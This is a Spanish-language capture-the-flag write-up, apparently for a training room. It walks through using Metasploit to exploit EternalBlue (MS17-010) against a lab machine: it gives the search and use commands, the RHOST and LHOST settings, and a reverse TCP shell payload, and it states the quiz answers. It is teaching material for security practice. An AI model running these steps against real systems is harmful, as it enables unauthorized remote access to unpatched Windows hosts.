



# **Metasploit**

En esta parte estaremos usando Mestasploit para acceder a la máquina víctima por medio del ataque EthernalBlue.

Lo primero que haremos es iniciar metasploit con el siguiente comando:
```bash
msconsole -q
```

## **Find the exploitation code we will run against the machine. What is the full path of the code?**

Ahora lo que haremos es muscar un exploit que nos sirva para explotar la vulnerabilidad Ethernablue.

Simplemente realizaremos la siguiente búsqueda dentro de metasploit y veremos que sucede.

```bash
search ms17_010
```


Efectivamente encontramos lo que estamos buscando, para seleccionarlo, por lo tanto la respuesta a la pregunta es ese full path.
Para seleccionarlo usamos el comando
```bash
use 0 
```

**Respuesta:** exploit/windows/smb/ms17_010_eternalblue

## **Show options and set the one required value. What is the name of this value?**

Si realizamos un **show options**, veremos las opciones que queremos configurar, en nuestro caso, solamente **RHOST.** 



Aunque la respuesta correcta sea RHOST, también tendremos que modificar nuestro **LHOST** debido a que estamos conectados por VPN.
!!! importan
	Si no configuran el **LHOST**, el ataque no será exitoso.

Por lo general el payload se asigna automáticamente, pero para quitar las dudas lo asignaremos con el siguiente comando:

```bash
set payload windows/x64/shell/reverse_tcp
```

Hecho todo esto solo tendremos que escribir **run** y presionar **ENTER** y gualá Reverse shell lograda !!!!

Los otros apartados dentro de la sección no se tomarán en cuenta, ya que soy muy fáciles de hacer y no necesitan respuesta alguna.



